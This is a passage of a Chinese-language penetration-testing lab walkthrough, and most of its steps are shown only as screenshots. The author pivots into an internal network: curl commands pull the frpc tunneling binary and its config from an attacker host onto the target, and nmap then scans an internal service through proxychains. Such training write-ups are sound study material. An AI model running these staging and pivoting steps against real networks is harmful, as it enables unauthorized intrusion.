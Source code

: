 这里收集到了信息![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVkK6ib2PsvKDrQWXs3d1TUeZibN4fGYltxlWc83SbbpSz9SHkdtWAribSg/640?wx_fmt=png&from=appmsg "")  
这里看到了172.18.0.3开放了8022端口 curl -s 172.18.0.4:8022![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVYYo94QIiaImWSKBhia2icr2U7A5Leu8TcaJ9t8JdnXF4aVD9uKz2Nibfibg/640?wx_fmt=png&from=appmsg "")  
这里网上查的，但是探测出来是个ssh的，不太懂这个服务是干嘛的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV0hMsW391T08emxsibaW7JWL5KpgvibFlqQMFIUZ0wO47F7c2s54DicBQg/640?wx_fmt=png&from=appmsg "")  
这里由于是内网环境，需要进一步的渗透的话，需要使用跳板。那么这里做跳板有三种思路，一种是加路由，建立隧道，端口映射。  
#### 3、建立隧道，使用代理（这里新版frp内网穿透自行摸索）  
  
这里使用arp，首先对frpc.toml进行修改  
  
然后是对frps.toml进行修改 然后把将frpc和frpc.toml上传至目标机  
  
curl -O http://192.168.66.129:8080/frp_0.62.1_linux_amd64/frpc curl -# -O http://192.168.66.129:8080/frp_0.62.1_linux_amd64/frpc.toml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVuUNBVJlcuWkz7U5MFiaRJDPRb6YqMMM6PicChSlwiapqaqVUDR5YyMzDw/640?wx_fmt=png&from=appmsg "")  
上传我们的frp工具![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV3hY3OrD5NN1ibJVib3ZZsB3fyfKdBJ9xOicDWavl2F9DRnzad5DCajjUA/640?wx_fmt=png&from=appmsg "")  
这里遇到了一个非常困难的问题，就是frp工具版本的更新，配置文件的更换，ini文件换成了toml文件，这需要我们自己查询资料去配置，尤其是第一次使用这个工具一定会卡很久![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVAdK3Liamv5HlhkPic9pSibM5yoETbLy8YbnkicI2hNrqJmqMzL6sG36mmg/640?wx_fmt=png&from=appmsg "")  
这里我们配置的是toml配置文件，尝试一下能否使用，因为网上没有相关的使用参照了，靶机也很老，所以我们只能自己摸索  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVthmgmNibYXVM50Al9dM8xkbibD6Vl9fonopiawDuYNENQhkUAfWAGkQwg/640?wx_fmt=png&from=appmsg "")  
这里我们在kali上使用frp报错，查找一下原因。 这里因为一些原因我们只能先使用旧版的frp了，因为第一次用这个工具，导致新版和旧版的配置文件遇到了问题。  
##### 1、旧版frp内网穿透  
  
ok，我们配置完这两个文件，尝试启动一下吧先![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVs1lHAuCEricNFwOKvGPWScpaFExYFl584KY0SMibOBhvzBiaFumZ8unEA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVdkUqm4K8LZW4ict6PRdl3ZyykfiblCD4qp7NL3RUQ30gMeB1euOProNw/640?wx_fmt=png&from=appmsg "")  
  
启动成功了，真的是配置文件问题，新版确实不会配置，等我私下研究一下![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVrnXOQd0xmiby3fC0qQ9GzpjXeWdShUhwib2iaiczrTd82pLOEnBwMB0Oiaw/640?wx_fmt=png&from=appmsg "")  
ok啊ok，我们又一次传这个文件了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVLoZGmXPbuE1eRqicy8nSjIZy4h3HlYgkH7v4WsKiaeg6l4ns5oC22X8g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVC4cNqqYrmLCSiaQnE1CPQTFCBk19pVrWqvpRxcoSd0KtZ3hWrub8E5g/640?wx_fmt=png&from=appmsg "")  
ok了这里，我们用了重启大法，如果无法打通frp就试试重启，可能是端口或者服务被占用了 gedit /etc/proxychains4.conf 然后我们修改配置文件![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdVLNBUrs5A8BBNhH3RGJJwYhQN0w1QiakTliaHPgibBYAht5RINHRvWVMXw/640?wx_fmt=png&from=appmsg "")  
ok了 通过代理使用nmap扫描 proxychains nmap -sT -sV -Pn -n -p8022 172.18.0.3![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV3dtyooJGKmyPFkOld77EKXJxG5PLtugdYIhCyfnyRS0ECaRgts0rGA/640?wx_fmt=png&from=appmsg "")  
这里开放了一个网站Node.js，我们使用火狐代理去访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1oBmrv72vJtPKicyZ3ib9OdV3FBmSm6g3qiazZfXBNZmUITibDjsib5DtnqN3kaJQB7MMYhrq3E7WvIibA/640?wx_fmt=png&from=appmsg "")  
  